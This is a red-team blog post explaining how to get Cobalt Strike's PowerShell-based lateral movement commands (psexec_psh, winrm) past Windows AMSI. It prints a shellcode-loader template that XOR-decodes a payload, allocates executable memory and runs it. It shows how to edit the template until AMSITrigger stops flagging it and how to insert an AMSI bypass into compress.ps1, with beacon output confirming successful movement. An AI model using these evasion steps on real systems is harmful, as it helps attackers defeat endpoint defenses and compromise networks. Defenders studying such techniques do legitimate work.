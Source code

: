 ```yaml
---
title: "Making AMSI Jump"
date: 2020-06-16T10:52:27+01:00
authors:
    - rastamouse
draft: false
---
```


Since 3.13, Cobalt Strike has had a Malleable C2 option called `amsi_disable`.  This directive tells Beacon to patch the `AmsiScanBuffer` function in the host process prior to injecting post-ex capabilities such as `powerpick` and `execute-assembly`.  This limits AMSI's visibility of said process and (hopefully) prevents the PowerShell / .NET assemblies being executed from being scanned.

One set of workflows that `amsi_disable` does not apply to, are the new (as of 4.0) `jump` commands.

```
beacon> help jump
Use: jump [exploit] [target] [listener]

Attempt to spawn a session on a remote target with the specified exploit.

Type jump by itself to see a list of available remote exploits.

beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

`psexec_psh`, `winrm` and `winrm64` all use PowerShell and will be the subject of this post.

When lateral movement via `winrm` / `winrm64` is blocked by AMSI, the output very helpfully lets us know that's what's happening.

![winrm64-blocked](/making-amsi-jump/winrm64-blocked.png "winrm64 blocked")

`psexec_psh` is understandably less helpful.  We see a service has been created and started, but we can't connect to the target.

![psexec_psh-blocked](/making-amsi-jump/psexec_psh-blocked.png "psexec_psh blocked")

## Resource Kit & AMSITrigger

The default PowerShell templates used to generate these payloads can be overridden using the [Resource Kit](https://www.cobaltstrike.com/scripts).  Within this package, we have `resources.cna`, `template.x86.ps1`, `template.x64.ps1` and `compress.ps1`.

Within these templates, there are lines such as

```text
[Byte[]]$var_code = [System.Convert]::FromBase64String('%%DATA%%')
```

where `%%DATA%%` is simply a placeholder for the actual Beacon payload.

First off, we can use a tool such as [AMSITrigger](https://github.com/RythmStick/AMSITrigger) to see if any detections are triggered from the templates themselves.

```text
D:\Tools\AMSITrigger\AMSITrigger\bin\Debug>AmsiTrigger.exe -i D:\Tools\cobaltstrike\resourcekit\template.x64.ps1 -f 2
[23]    "If ([IntPtr]::size -eq 8) {
        [Byte[]]$var_code = [System.Convert]::FromBase64String('%%DATA%%')

        for ($x = 0; $x -lt $var_code.Count; $x++) {
                $var_code[$x] = $var_code[$x] -bxor 35
        }

        $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
        $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
        [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

        $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
        $var_runme.Invoke([IntPtr]::Zero"
```

The general methodology here is to make modifications to the code being highlighted as malicious and re-scanning with AMSITrigger.  I was able to circumvent by simply adding `else { return }` to the end of the `If ([IntPtr]::size -eq 8)` block `¯\_(ツ)_/¯`.

Now if we load `resources.cna` into the Cobalt Strike Script Manager, and try `jump winrm64` again...

```text
beacon> jump winrm64 WIN-CJ8120QPH84 tcp
[*] Tasked beacon to run windows/beacon_bind_tcp (0.0.0.0:4444) on WIN-CJ8120QPH84 via WinRM
[+] host called home, sent: 219563 bytes
[+] established link to child beacon: 192.168.152.128
```

Repeat the same process with `template.x86.ps1` and we can have `jump winrm` working as well.

```text
beacon> jump winrm WIN-CJ8120QPH84 tcp
[*] Tasked beacon to run windows/beacon_bind_tcp (0.0.0.0:4444) on WIN-CJ8120QPH84 via WinRM
[+] host called home, sent: 195283 bytes
[+] established link to child beacon: 192.168.152.128
```

## The Compression Problem

Even though `psexec_psh` also uses `template.x86.ps1`, it was still failing.  By enabling PowerShell Transcript logging on the test target, I was able to see what was happening.

```text
Windows PowerShell transcript start
Start time: 20200616135045
Username: TESTLAB\SYSTEM
RunAs User: TESTLAB\SYSTEM
Machine: WIN-CJ8120QPH84 (Microsoft Windows NT 10.0.14393.0)
Host Application: powershell -nop -w hidden -enc JABz[...snip...]ADsA
**********************
PS>$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sI[...snip...]CwAA"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
At line:1 char:1
+ $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAA ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At line:1 char:1
+ $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAA ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus
software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordEx
   ception
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

It seems that AMSI has a real issue with base64 decoding and decompressing a GZIP compressed binary - regardless of the actual binary itself.  We can verify this by using `cmd.exe` as a test candidate.

```text
PS > $cmdBytes = [System.IO.File]::ReadAllBytes("C:\Windows\System32\cmd.exe")
PS > [System.IO.MemoryStream] $ms = New-Object System.IO.MemoryStream
PS > $gs = New-Object System.IO.Compression.GzipStream $ms, ([IO.Compression.CompressionMode]::Compress)
PS > $gs.Write($cmdBytes, 0, $cmdBytes.Length)
PS > $gs.Close(); $ms.Close()
PS > [System.Convert]::ToBase64String($ms.ToArray()) | clip
```

Now if we try to decode and decompress...

```text
PS C:\Users\Daniel> $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sI[...snip...]AA=="));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();

At line:1 char:1
+ $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAA ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

My first thoughts for trying to get around this was to modify `compress.ps1` and transform the data in a different way or find a different compression method.  Whilst experimenting, I actually made syntactic error near the top of the script and saw PowerShell errors being spat out in the transcript log, prior to the actual AMSI error being thrown.

```text
**********************
PS>CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="InputObject"; value="The term 'some-garbage' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again."
some-garbage : The term 'some-garbage' is not recognized as the name of a cmdlet, function, script file, or operable 
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ some-garbage;
```

This showed that I have code execution prior to the Beacon payload being decoded, so I placed a custom version of my [old AMSI bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass.ps1) at the very top of `compress.ps1` which seemed to do the trick.

```text
beacon> jump psexec_psh WIN-CJ8120QPH84 tcp
[*] Tasked beacon to run windows/beacon_bind_tcp (0.0.0.0:4444) on WIN-CJ8120QPH84 via Service Control Manager (PSH)
[+] host called home, sent: 210319 bytes
[+] received output:
Started service f718f3b on WIN-CJ8120QPH84
[+] established link to child beacon: 192.168.152.128
```

## Conclusion

The flexibility provided by the Resource Kit allows you to transform Cobalt Strike's artifacts in practically anyway you may choose and it just goes to show how little effort you sometimes have to put in to achieve quite decent results.
